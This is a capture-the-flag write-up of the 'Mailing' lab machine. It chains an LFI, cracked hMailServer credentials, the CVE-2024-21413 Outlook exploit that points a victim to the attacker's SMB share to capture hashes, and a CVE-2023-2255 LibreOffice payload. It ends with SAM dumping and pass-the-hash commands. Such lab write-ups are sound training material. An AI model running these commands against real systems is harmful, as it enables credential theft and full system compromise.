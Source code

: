 ```yaml
---
description: >-
  Windows | easy | IIS server | LFI | hMailServer | CVE-2024-21413 Outlook |
  CVE-2024-21413 Libre Office
---
```


# Mailing



<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

On the website we can see an upload button to download pdf instruction for mail connection. with an email sent to maya@mailing.htb.



When we intercept it whith burp we can see an LFI. After looking for IIS intersting files we did check on hMailServer files to find the .ini files with Mysql credentials.





<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Lets use Hashcat to decrypt the hash :&#x20;

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

&#x20;Administrator:homenetworkingadministrator

&#x20;now that we have a password we looked for a another CVE and found CVE-2024-21413

[https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability.git](https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability.git)

```bash
python3 CVE-2024-21413.py --server "10.10.11.14" --port 465 --username "Administrator@mailing.htb" --password "homenetworkingadministrator" --sender "Administrator@mailing.htb" --recipient "maya@mailing.htb" --url "
\\OURIP\message
" --subject "frfr"
```

goal is to send a mail to maya with a malicious link. when she will click on it she will contact ou smb server and we will intercept her Hash.&#x20;





evil-winrm -i 10.129.231.40 -u maya -p 'm4y4ngs4ri'



m4y4ngs4ri



after using winpeas we can see some interesting things :&#x20;

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://github.com/elweth-sec/CVE-2023-2255" %}

in order to exploit this CVE we have first to generate a malicious .odt file  with our comand to gain privilege. Then we have to assure this .odt will be open. &#x20;

```
python3 CVE-2023-2255.py --cmd 'net localgroup Administradores maya /add' --output 'file.odt'
```

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

We copy it in Important Documents And then we are affected to the Admin group.

```bash
crackmapexec smb 10.129.231.40 -u maya -p "m4y4ngs4ri" --sam
```



<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

localadmin:1001:aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae:::

```bash
crackmapexec smb 10.129.231.40 -u localadmin -H "aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae" -x "cmd.exe /c type c:\users\localadmin\Desktop\root.txt"
```

